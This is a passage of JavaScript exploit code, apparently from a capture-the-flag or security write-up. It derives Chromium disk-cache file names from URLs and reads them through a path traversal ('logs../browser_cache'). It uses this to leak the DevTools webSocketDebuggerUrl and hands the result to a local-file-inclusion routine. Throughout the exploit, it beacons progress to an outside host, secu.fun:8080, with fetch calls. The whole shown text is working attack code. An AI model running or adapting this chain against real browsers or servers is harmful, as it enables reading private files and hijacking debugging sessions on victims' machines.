 ```js
        .catch(error => console.error('Error during requests or hashing:', error));
}

async function getEntryHashKey(url) {
    // https://source.chromium.org/chromium/chromium/src/+/main:net/disk_cache/simple/simple_entry_format.h
    // We use this algo to regenerate hash_key from url

    // Uint8Array
    const encoder = new TextEncoder();
    const data = encoder.encode(url);

    //SHA1 the cache_key
    const hashBuffer = await crypto.subtle.digest('SHA-1', data);
    const hashArray = Array.from(new Uint8Array(hashBuffer));

    // Take only 8 first bytes and reverse them
    const truncatedReversedHash = hashArray.slice(0, 8).reverse();

    // Finally hex them
    const hashHex = truncatedReversedHash.map(b => b.toString(16).padStart(2, '0')).join('');
    const hash = hashHex + '_0'; // Depend of data type, for a classic HTML is generally _0
    return hash;
}


function fetchHtmlContentFromCache(hash, targetUrl) {
    // Now we have the name of the file corresponding to the ressource cached, we can dump it, leaking the ws url of the /json/list cached file
    const cacheUrl = `http://localhost/logs../browser_cache/Default/Cache/Cache_Data/${hash}`;
    fetch(cacheUrl)
        .then(response => response.text())
        .then(htmlContent => {
            //console.log('HTML content:', htmlContent.lenght); // raw format
            fetch(`http://secu.fun:8080/?c=step2:${targetUrl}`)
            return extractWebSocketUrls(htmlContent, targetUrl);
        })
        .then(targetWebSocketUrl => {
            console.log('Extracted WebSocket URL for target:', targetWebSocketUrl);
        })
        .catch(error => console.error('Error fetching HTML content:', error));
}


function extractWebSocketUrls(rawContent, targetUrl) {
    
    // Attempt to extract WS link of our exploit URL
    const regex = /"url"\s*:\s*"([^"]+)"\s*,\s*"webSocketDebuggerUrl"\s*:\s*"([^"]+)"/g;
    let match;
    while ((match = regex.exec(rawContent)) !== null) {
        const url = match[1];
        const webSocketUrl = match[2];
        if (url === targetUrl) {
            setTimeout(() => {
              fetch(`http://secu.fun:8080/?c=step3`)
            }, 1000)
            return LFIfromWS(webSocketUrl);
        }
    }
    return null;
}


```